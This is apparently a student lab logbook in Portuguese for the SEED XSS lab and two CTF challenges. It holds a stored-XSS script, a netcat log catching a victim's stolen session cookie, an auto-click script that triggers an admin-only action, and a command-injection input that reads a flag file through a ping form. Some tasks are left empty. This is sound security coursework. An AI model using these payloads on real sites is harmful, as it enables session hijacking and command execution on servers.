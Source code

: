 # SEED Labs - Cross-Site Scripting (XSS) Attack Lab

## Preparation: Getting Familiar with the "HTTP Header Live" tool

Utilizou-se a ferramenta `"HTTP Header Live"` para capturar e analisar pedidos HTTP, em particular, o pedido que é feito quando um utilizador (neste caso Alice) clica no botão `Add friend` no perfil de `Samy`, ou seja, quando se adiciona `Samy` à lista de amigos. O pedido HTTP capturado encontra-se abaixo. Este será útil na `task 4`.

![](./screenshots/logbook10_task0.png) 

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: Elgg=6ci56crsicjs6buh3fjo2pf68o
```

## Task 1: Posting a Malicious Message to Display an Alert Window

Depois de fazer _log in_ como Samy (username **samy** e password **seedsamy**) por exemplo, tal como é sugerido no guião, colocou-se o seguinte código JavaScript no campo `Brief description` do seu perfil. Outro campo do perfil onde é esperado _input_ do utilizador, por exemplo `Location`, seria válido, porque não é apenas no campo `Brief description` que o _input_ do utilizador não é devidamente tratado.

```html
<script>alert('XSS');</script>
```

![](./screenshots/logbook10_task1_1.png)

Tal como era esperado, sempre que um utilizador visita o perfil de `Samy` o código é executado e uma janela de alerta é exibida. 

![](./screenshots/logbook10_task1_2.png) 

## Task 2: Posting a Malicious Message to Display Cookies

![](./screenshots/logbook10_task2_1.png) 
![](./screenshots/logbook10_task2_2.png) 

## Task 3: Stealing Cookies from the Victim’s Machine

![](./screenshots/logbook10_task3.png) 

```sh
[12/09/22]seed@VM:~/.../Labsetup$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.7 56350
GET /?c=Elgg%3Dlutf37jd6iap3futo623ouohpe HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
```

## Task 4: Becoming the Victim’s Friend


# CTF - Semanas 10 e 11

## Desafio 1

Ao entrar na página web, deparamo-nos com um form simples onde podemos inserir texto, que depois pode ser visto pelo administrador.

![img](screenshots/apply_flag1.PNG)  

![img](screenshots/apply_flag2.PNG)

Se o input do form não for *sanitized*, então esta página fica vulnerável a um ataque XSS, uma vez que é possível colocar uma tag `<script>` no código html da página.

O objetivo é fazer o administrador clicar no botão "Give the flag", uma vez que o utilizador não autenticado não tem permissões para o fazer (mesmo que não esteja `disabled`)

```html
<form method="POST" action="" role="form">
    <div class="submit">     
        <input type="submit" id="giveflag" value="Give the flag" disabled="">      
    </div>
</form>
```

Então, vamos utilizar um script que realize essa ação ao carregar a página, de modo a que seja feito do lado do administrador.

```html
<script> window.onload = function(){document.getElementById('giveflag').click();} </script>
```

![img](screenshots/apply_flag3.PNG)  

![img](screenshots/apply_flag4.PNG)


## Desafio 2

Ao explorar o site, encontramos algumas funcionalidades disponíveis a um utilizador não autenticado, que podemos tentar explorar. Nomeadamente existe funcionalidade que nos permite testar a nossa ligação a um ip específico.

![img](screenshots/ping1.PNG) 

Pela forma como é feito, percebemos que é usado o comando linux `ping`, ou seja, existe uma shell de linux a correr no servidor, à qual temos acesso. Sabendo pelo eunuciado que a flag se encontra em `/flags/flag.txt` vamos usar a shell para imprimir o conteúdo deste ficheiro, usando como input `0.0.0.0 | cat /flags/flag.txt`.

![img](screenshots/ping2.PNG) 


